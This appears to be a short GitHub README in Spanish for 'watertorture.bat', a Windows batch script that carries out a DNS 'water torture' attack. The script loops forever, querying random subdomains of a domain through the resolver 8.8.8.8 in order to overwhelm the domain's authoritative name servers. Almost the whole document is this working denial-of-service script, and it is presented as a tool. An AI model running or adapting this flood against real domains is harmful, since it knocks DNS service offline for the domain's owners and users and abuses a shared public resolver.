 # watertorture

watertorture.bat ;Water Torture DNS autoritativo con proceso por lotes Bath MS-DOS:
Consultas subdominios aleatorios de un dominio.

@ECHO OFF

ECHO Water Torture DNS autoritativo. (c) hackingyseguridad 2016. Version 1.

:loop

SET/A ran=%random%

NSLOOKUP %ran%.hackingyseguridad.es 8.8.8.8

goto loop

